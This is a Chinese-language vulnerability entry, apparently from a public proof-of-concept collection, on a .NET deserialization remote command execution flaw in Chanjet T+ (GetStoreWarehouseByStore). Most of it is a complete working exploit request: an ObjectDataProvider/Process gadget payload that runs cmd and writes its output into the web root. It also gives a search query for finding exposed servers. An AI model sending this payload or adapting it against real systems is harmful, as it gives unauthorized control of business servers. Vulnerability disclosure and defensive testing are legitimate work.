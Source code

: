 # 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

## 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

## 漏洞影响

用友 畅捷通T+

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20230704111641427](images/image-20230704111641427.png)

验证POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![image-20230704111653392](images/image-20230704111653392.png)

```
/tplus/xxx.txt
```

![image-20230704111706616](images/image-20230704111706616.png)
